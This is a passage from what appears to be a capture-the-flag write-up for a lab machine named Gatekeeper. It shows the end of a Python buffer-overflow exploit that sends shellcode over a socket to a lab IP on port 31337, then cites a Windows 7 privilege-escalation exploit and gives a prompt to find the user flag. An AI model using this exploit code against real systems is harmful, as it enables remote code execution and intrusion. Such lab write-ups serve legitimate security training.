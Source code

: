 ```python
b"\x78\xf0\x88\x9e\x84\xdd\x7e\x7e\x34\x88\xc6\x81\xf9\x5c\xcf"
b"\xfa\xe7\xfc\x30\xd1\xa3\x0d\x7b\x7b\x85\x85\x22\xee\x97\xcb"
b"\xd4\xc5\xd4\xf5\x56\xef\xa4\x01\x46\x9a\xa1\x4e\xc0\x77\xd8"
b"\xdf\xa5\x77\x4f\xdf\xef")

try:
      print("Sending Payload...")
      s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      s.connect(('10.10.67.40',31337))
      s.send(payload + shellcode + b'\r\n')
      print("Payload sent...")
      s.close()

except:
      print("Cannot connect to the server")
      sys.exit()
```

![0xskar](/assets/gatekeeper11.png)

## # Exploits

- Microsoft Windows 7 build 7601 (x86) - Local Privilege Escalation | windows_x86/local/47176.cpp


##   Answer the questions below

**Locate and find the User Flag.**
